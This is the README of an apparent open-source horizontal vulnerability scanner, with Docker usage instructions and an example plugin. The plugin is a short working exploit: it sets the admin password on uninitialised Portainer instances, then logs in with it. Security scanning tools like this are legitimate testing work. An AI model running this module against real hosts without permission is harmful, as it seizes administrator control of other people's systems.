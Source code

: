 # low-hanging
Lightweight and extensible horizontal vulnerability scanner. Pass list of domains and check for low hanging fruits.

Made to be easily extensible. Adding more checks is just few lines of code with 
pre-initialized `requests-http` session ()with nice features like JS rendering).

Inspired by https://github.com/tomnomnom/meg, but made to be easily pluggable into your fully automated workflow.

## Usage
```bash
$ docker run s14ve/low-hanging --help
Usage: low_hanging.py [OPTIONS]

Options:
  -d, --domains TEXT     List of domains separated by newline
  -t, --threads INTEGER  Number of threads with which you want to run
  --help                 Show this message and exit.
``` 

## Adding Modules
Adding modules is quite simple, yet it requires some manual work with imports. This will get improved in the future.
For now, bear with me and check [example commit](https://github.com/janmasarik/low-hanging/commit/e2ebe80a3bb8f7c7e02c73c48e8caaeb847f18c9).

## Example Module
```python
from urllib.parse import urljoin
from low_hanging.base_worker import BaseWorker

class PortainerAdmin(BaseWorker):
    name = "portainer_admin_reset"
    references = ["https://github.com/portainer/portainer/issues/493"]
    def run(self):
        r = self.session.post(
            urljoin(self.domain, "/api/users/admin/init"),
            json={"username": "admin", "password":"definitely_valid"}
        )

        if r.status_code in (404, 409):
            r = self.session.post(
                urljoin(self.domain, "/api/auth"),
                json={"username": "admin", "password":"definitely_valid"}
            )
            if r.status_code < 400:
                return r.url  # If successful, return the URL for which the exploit is valid
```
